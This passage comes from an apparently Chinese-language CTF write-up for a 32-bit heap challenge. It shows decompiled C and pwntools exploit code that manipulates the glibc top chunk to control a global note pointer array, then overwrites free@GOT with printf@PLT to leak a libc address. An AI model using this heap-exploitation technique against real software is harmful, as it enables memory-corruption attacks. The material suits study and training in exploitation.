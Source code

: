 ```c
  dword_804B120[i] = (int)malloc(v2 + 4); //*
  if ( !dword_804B120[i] )
    exit(-1);
  dword_804B0A0[i] = v2;
  puts("Input the content:");
  iread(dword_804B120[i], v2, 10);
  printf("Create success, the id is %d\n", i);
  result = i;
  dword_804B0E0[i] = 0;
  return result;
}
```
首先我们要正确计算申请的chunk，让topchunk指针指向0x804B118，因为需要0x8个字节存放precv_size和size。
```python
note_list = 0x804B120
target_addr = note_list - 0x8
top_addr = leakheap_addr + 0x40 + 0x48 + 0x48 + 24
log.success("top_addr: "+hex(top_addr))
malloc_size = -(top_addr-target_addr) - 0x4 -0x8
log.success("malloc_size: "+hex(malloc_size))
newNote(0x10,'aaaa')
newNote(malloc_size,'cccc')

```
此时的top_addr是在*之前的topchunk的指针，其中0x40+0x48+0x48是保存name、org、host的大小
##### glibc会对申请的内存大小进行调整
```c
/* pad request bytes into a usable size -- internal version */
#define request2size(req)                                         \
  (((req) + SIZE_SZ + MALLOC_ALIGN_MASK < MINSIZE)  ?             \
   MINSIZE :                                                      \
   ((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)
```
其中在32位系统下SIZE_SZ=4，MALLOC_ALIGN_MASK=8-1=7

所以newNote(0x10,'aaaa')申请内存的操作为malloc(0x10+4)即malloc(0x14)，0x14不是8的倍数，通过`((req) + SIZE_SZ + MALLOC_ALIGN_MASK) & ~MALLOC_ALIGN_MASK)`计算真正分配的内存大小，而glibc中源码有一段注释
```c
/* For glibc, chunk2mem increases the address by 2*SIZE_SZ and
 MALLOC_ALIGN_MASK is 2*SIZE_SZ-1.  Each mmap'ed area is page
aligned and therefore definitely MALLOC_ALIGN_MASK-aligned.  */
```
所以申请的内存大小为`((0x14) + 4 + 7) & ~7) = 24`，所以要加24，有了topchunk的指针，就可以计算到底该申请多少内存，会让topchunk指针指向0x804b118

`malloc_size = -(top_addr-target_addr) - 0x4 -0x8`，申请正的size会抬高topchunk指针，反之，因此加个负号`-(top_addr-target_addr)`

-0x4是为了抵消程序中的`(int)malloc(v2 + 4)`，-0x8是因为在申请内存时glibc会对申请的大小加上2*SIZE_SZ，填充chunkhead。

#### 4.泄露libc中函数的地址
通过第三步，已经可以控制堆指针，那么我们通过editNote函数就可以写入堆指针。

程序中没有打印chunkdata的功能，因此需要自己构造一个。我的思路是将free函数修改为print，这样就可以打印出chunkdata的内容。
```python
payload = p32(elf.got['free'])
payload += p32(elf.got['atoi'])
payload += p32(elf.got['atoi'])
newNote(0x100,payload)
editNote(0,p32(elf.symbols['printf']))
deleteNote(1)
atoi_addr = u32(p.recvuntil('Delete success.')[1:5])
log.success('atoi_addr: '+hex(atoi_addr))
```
第一个堆指针写为free@got，第二第三堆指针写为atoi@got，将free@got写为print@plt，`deleteNote(1)`时会打印出atoi在libc的地址。
